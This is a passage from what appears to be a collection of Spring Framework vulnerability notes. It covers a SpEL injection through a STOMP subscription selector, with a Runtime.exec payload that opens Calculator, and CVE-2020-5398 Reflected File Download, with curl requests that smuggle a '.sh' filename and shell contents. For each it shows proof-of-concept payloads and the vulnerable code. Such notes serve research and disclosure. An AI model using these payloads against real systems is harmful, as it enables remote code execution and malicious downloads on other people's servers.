 POC: 
```
app.js -> Add header
var header = {"selector":"T(java.lang.Runtime).getRuntime().exec('open /System/Applications/Calculator.app')"};

Connect -> use burp to modify packets
["SUBSCRIBE\nid:sub-0\ndestination:/topic/greetings\nselector:T(java.lang.Runtime).getRuntime().exec('open /System/Applications/Calculator.app')\n\n\u0000"]

send messages...
```
Factor: 
```
org.springframework.messaging.simp.broker.DefaultSubscriptionRegistry
private MultiValueMap<String, String> filterSubscriptions(MultiValueMap<String, String> allMatches, Message<?> message) {
    info = this.subscriptionRegistry.getSubscriptions(sessionId);
    sub = info.getSubscription(subId);
    Expression expression = sub.getSelectorExpression();
    context = new StandardEvaluationContext(message);
    if (Boolean.TRUE.equals(expression.getValue(context, Boolean.class))) {
        result.add(sessionId, subId);
    }
}
```

#### CVE-2020-5398 Reflected File Download
Affected Version: < 5.2.3 or 5.1.13 or 5.0.16

Diff: hhttps://github.com/spring-projects/spring-framework/commit/956ffe68587c8d5f21135b5ce4650af0c2dea933

Ref: 

https://github.com/motikan2010/CVE-2020-5398

https://drive.google.com/file/d/0B0KLoHg_gR_XQnV4RVhlNl96MHM/view?resourcekey=0-NV7cTUTB48bltMEddlULLg

POC: 
```
curl 'http://127.0.0.1:8080/?filename=sample&contents=Hello,%20World' --dump-header -
curl 'http://127.0.0.1:8080/?filename=sample.sh%22%3B&contents=%23!%2Fbin%2Fbash%0Aid' --dump-header -
curl 'http://127.0.0.1:8080/?filename=sample.sh%22%3B&contents=%23!%2Fbin%2Fbash%0Aid' --dump-header -
```
Factor: 
```
@RequestMapping(value = {"/"}, method = RequestMethod.GET)
public ResponseEntity<String> download(@RequestParam("filename") String fileName, @RequestParam("contents") String contents) {

// Make file name in response header
ContentDisposition contentDisposition = ContentDisposition.builder("attachment")
	.filename(fileName + ".txt") // Secure .txt file
	.build();
HttpHeaders headers = new HttpHeaders();
headers.setContentDisposition(contentDisposition);

// Download contents
return ResponseEntity.ok()
	.headers(headers)
	.contentType(MediaType.parseMediaType("application/octet-stream"))
	.body(contents);
}
```